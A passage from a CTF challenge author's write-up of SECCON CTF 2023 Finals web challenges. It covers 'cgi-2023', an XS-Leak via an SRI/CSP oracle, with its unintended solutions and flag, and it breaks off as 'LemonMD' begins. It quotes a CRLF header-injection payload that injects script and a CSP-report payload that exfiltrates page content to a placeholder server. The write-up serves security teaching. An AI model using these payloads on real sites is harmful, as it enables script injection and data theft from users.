 The SRI check will succeed, and the CSP error report won't be sent.

If the SRI check fails, the CSP error report will be sent.
Thus, we can use the behavior as an oracle to perform XS-Leaks.

### Solver

Here is my full exploit:

- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202312_SECCON_CTF_2023_Finals/web/cgi-2023/solver/

### Unintended solutions

There were some unintended solutions:

- `Content-Security-Policy-Report-Only` + Lazy-loading iframe + Scroll to Text Fragment:
    - Writeups by Pencake from HK Guesser:
        - https://hackmd.io/@IOKh9vO3ReOUWJgQcV1WPQ/ryFZXFFwp#cgi-2023
    - I was surprised that lazy loading affects the time when CSP errors occur.
- Bypassing `status` checks using `%0d`:
    - Payload by Paul_Axe from More Smoked Leet Chicken:
      ```
      GET /?q=s%0dtatus:103%20Eearly%20Hints%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:text/html%0d%0a%0d%0a%0d%0a<script>alert(1)</script> HTTP/1.1
      ```
    - I added a check `!strings.Contains(strings.ToLower(q), "status")` to prevent solutions with `100 Continue` or `103 Early Hints`. However, the above solution succeeded to bypass it using `%0d`:sob:
- `Content-Security-Policy-Report-Only` with `'report-sample'` + utf-16 encoding:
    - Payload by maple3142 from `${CyStick}`:
      ```
      http://web:3000/?q=Content-Security-Policy-Report-Only:%20default-src%20%27report-sample%27%3B%20report-uri%20https://YOUR_SERVER/xx%0aContent-Type:text/html%3Bcharset=utf-16%0a%0a%3C%00s%00t%00y%00l%00e%00%3E%00
      ```
    - I knew `'report-sample'` technique, but I thought it is invalid for this challenge because it can leak only the first 40 characters. The above solution used utf-16 encoding to increase the number of bytes that can be leaked.

### Flag

```
SECCON{leaky_sri}
```

## [web] LemonMD

- International: 2 solved / 12
- Domestic: 1 solved / 12
- Source code: https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202312_SECCON_CTF_2023_Finals/web/lemonmd

Description:


[^whitespace-js-flag]: https://store.steampowered.com/app/1628610/